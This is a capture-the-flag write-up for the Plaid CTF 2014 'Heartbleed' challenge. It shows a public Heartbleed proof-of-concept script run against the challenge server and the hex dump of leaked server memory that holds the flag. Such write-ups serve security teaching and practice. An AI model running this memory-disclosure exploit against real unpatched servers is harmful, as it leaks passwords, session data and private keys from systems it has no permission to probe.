 # Plaid CTF 2014: Heartbleed

**Category:** Misc
**Points:** 10
**Description:**

> Our hearts are bleeding. But instead of bleeding password bytes, they're bleeding flags. Please recover our flags so we don't bleed to death before we can update to 1.0.1-g. Site is up at <https://54.82.147.138:45373/>.
>
> (The flag format is `flag{...}`.)

## Write-up

The challenge name makes it pretty clear that the server is vulnerable to the [the Heartbleed bug](http://heartbleed.com/). Let’s use the famous [Heartbleed proof of concept script](heartbleed.py) and see what kind of data the server leaks:

```bash
$ ./heartbleed.py -p 45373 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
	0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
	0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
	0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
	0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
	0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
	0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
	0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
	0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
	0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
	0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
	00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_
	…
	3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
	3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
	3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
	3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

The flag is `flag{hey\_guise\_we\_made\_a\_heartbleed}`.

## Other write-ups and resources

* [Source code for this challenge, released after the CTF](https://github.com/pwning/plaidctf2014/tree/master/web/heartbleed)
* <https://github.com/hackerclub/writeups/blob/master/plaidctf-2014/Heartbleed/WRITEUP-pipecork.md>
* <http://csrc.tamuc.edu/css/?p=152>
* <https://docs.google.com/document/d/1Y0wGrFkGUsK9Gzqh4sQnMHZDgWfMMvfPUN-vVjPNDfI/edit?pli=1>
* <http://akaminsky.net/plaidctf-quals-2014-misc-10-heartbleed/>
* [Spanish](http://crackinglandia.blogspot.com.ar/2014/04/plaidctf-2014-heartbleed-misc-10-pts.html)
